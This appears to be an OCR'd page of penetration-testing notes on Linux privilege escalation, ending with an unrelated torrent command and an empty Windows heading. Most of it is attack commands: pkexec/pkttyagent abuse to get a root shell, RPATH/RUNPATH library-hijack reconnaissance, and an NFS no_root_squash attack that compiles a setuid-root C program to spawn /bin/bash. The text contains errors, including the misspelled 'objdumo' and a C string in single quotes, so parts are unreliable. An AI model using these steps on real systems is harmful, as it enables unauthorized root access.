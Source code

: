 PKEXEC ABUSE
On session 1
#Step1: Get current PID
echo $$
#Step 3, execute pkexec
pkexec /bin/bash
#Step 5, if correctly authenticate, you will have a root session

On session 2
#Step 2, attach pkttyagent to session1
pkttyagent --process PID_OF_SESSION1
#Step 4, you will be asked in this session to authenticate to pkexec

determine the shared object that are being loaded by and executable:
ldd /usr/share/local/bin/PROGRAM

determine if the application was compiled with RPATH or RUNPATH
objdumo -x /usr/share/local/bin/PROGRAM | grep RPATH
objdumo -x /usr/share/local/bin/PROGRAM | grep RUNPATH

check for DOCKERS!!!!

### showmount -e IP

on /etc/export look for mount poits that have no_root_squash:
mount -o rw IP:REMOTE_MOUNT_POINT /tmp/test

main.c

```c
int main()
{
    setgid(0);
    setuid(0);
    system('/bin/bash');
    return 0;
}
```

gcc -o main -w main.c
chmod +s main

## CMD Line Torrent

```bash
sudo apt install transmission-cli

transmission-cli "MAGNET_LINK"
```

# Windows

## Tools
